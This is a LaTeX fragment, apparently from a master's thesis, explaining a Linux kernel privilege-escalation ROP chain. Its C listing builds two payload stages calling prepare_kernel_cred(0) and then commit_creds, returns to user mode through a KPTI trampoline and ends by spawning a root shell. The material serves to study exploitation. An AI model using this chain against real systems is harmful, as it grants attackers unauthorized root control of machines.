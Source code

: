 \documentclass{masterthesis}
\begin{document}
\subsection{Calling commit\_creds(prepare\_kernel\_cred(0))}
Since the number of gadgets is limited, it was impossible to find a ROP chain calling \lstinline{commit_creds(prepare_kernel_cred(0))}.
The only solution is to divide the chain into two parts:
\begin{itemize}
  \item Call \lstinline{prepare_kernel_cred (0)} function saving the return value in \emph{RAX}.
   \item Call \lstinline{commit_creds ()} function using the value we have in \emph{RAX}.
\end{itemize}
This way we bypass a fairly difficult part of the ROP chain, move the value received from \lstinline{prepare_kernel_cred(0)} from \emph{RAX} to \emph{RDI} and pass it to the \lstinline{commit_creds()} function.
\begin{lstlisting}
void stage_3(void){
    ...
    //As stage 1
    ...
    payload[off++] = pop_RDI_RBP_ret; // return address
    payload[off++] = 0; // RDI <- 0
    payload[off++] = 0; // dummy RBP
    payload[off++] = prepare_kernel_cred; // prepare_kernel_cred(0)
    payload[off++] = kpti_trampoline; // swapgs_restore_regs_and_return_to_usermode + 22
    payload[off++] = 0x0; // dummy RAX
    payload[off++] = 0x0; // dummy RDI
    payload[off++] = (unsigned long)after_prepare_kernel_cred;
    payload[off++] = user_cs;
    payload[off++] = user_rflags;
    payload[off++] = user_sp;
    payload[off++] = user_ss;
    ...
}

void after_prepare_kernel_cred(void){
    __asm__(
        ".intel_syntax noprefix;"
        "mov tmp_store, RAX;"
        ".att_syntax;"
    );
    returned_creds_struct = tmp_store;
    printf("    --> returned_creds_struct: %lx\n", returned_creds_struct);
    stage_4();
}

void stage_4(void){
    ...
    //As stage 3
    ...
    payload[off++] = returned_creds_struct; // RDI <- returned_creds_struct
    payload[off++] = 0; // dummy RBP
    payload[off++] = commit_creds; // commit_creds(returned_creds_struct)
    payload[off++] = kpti_trampoline; // swapgs_restore_regs_and_return_to_usermode + 22
    payload[off++] = 0x0; // dummy RAX
    payload[off++] = 0x0; // dummy RDI
    payload[off++] = (unsigned long)get_shell;
    payload[off++] = user_cs;
    payload[off++] = user_rflags;
    payload[off++] = user_sp;
    payload[off++] = user_ss;

    puts("[*] Prepared payload to call commit_creds(returned_creds_struct)");
    ssize_t w = write(global_fd, payload, sizeof(payload));
}
\end{lstlisting} 
\end{document}
